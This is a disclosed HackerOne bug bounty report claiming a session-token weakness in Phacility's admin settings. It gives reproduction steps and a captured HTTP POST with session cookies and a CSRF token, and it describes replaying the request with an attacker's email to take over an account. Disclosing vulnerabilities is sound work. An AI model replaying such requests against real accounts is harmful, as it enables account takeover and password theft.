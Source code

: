 # Broken Authentication and Session Management lead to take over account

## Report Details
- **Report ID**: 1271710
- **URL**: https://hackerone.com/reports/1271710
- **State**: Closed
- **Severity**: high
- **Submitted**: 2021-07-21T07:33:12.965Z
- **Disclosed**: 2021-07-21T16:32:52.928Z

## Reporter
- **Username**: thund3r17
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: phabricator

## Vulnerability Information
Hello, 
I found vulnerability using phone

Summary : 
Session token weakness, allowing attackers to take over accounts

Tools :
Lightning.apk (Browser) 
SandroProxy.apk or you can use all available proxies

Steps to Reproduce:
1) Create a phacility account.
2) Go to https://admin.phacility.com/settings/user/(username)/page/email/
3) Add new account
4) Open SandroProxy (Capture all http request) the request should look like this:

POST /settings/user/(username)/page/email/ HTTP/1.1
Host: admin.phacility.com
Connection: keep-alive
Content-Length: 157
sec-ch-ua: " Not A;Brand";v="99", "Chromium";v="90", "Google Chrome";v="90"
X-Phabricator-Csrf: B@5xu5frjn4f5238616917563d
sec-ch-ua-mobile: ?1
User-Agent: Mozilla/5.0 (Linux; Android 8.1.0; vivo 1820) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.210 Mobile Safari/537.36
X-Phabricator-Via: /settings/user/(username)/page/email/
Content-Type: application/x-www-form-urlencoded
Accept: */*
Origin: https://admin.phacility.com
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Accept-Encoding: gzip, deflate, br
Accept-Language: id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7,cs;q=0.6
Cookie: aura=u2FOcME6PSlT; admin_phusr=amer17; admin_phsid=ld7bdwzjadvg5x3go3wykgzj3blk3qrdidlqd452; halo=9LIv4U24kVpa

__csrf__=B%402hmxctpgc672d004d5b2cc5c&__form__=1&__dialog__=1&new=true&email=asuuu17%40gmail.com&__submit__=true&__wflow__=true&__ajax__=true&__metablock__=3

Pay attention (email=), change the victim's email to the attacker email with the same token, in this case the attacker can enter his email

## Impact

The weakness of the session token, allows the attacker to add his email and reset the password via the attacker's email

## Attachments
- poc.mp4
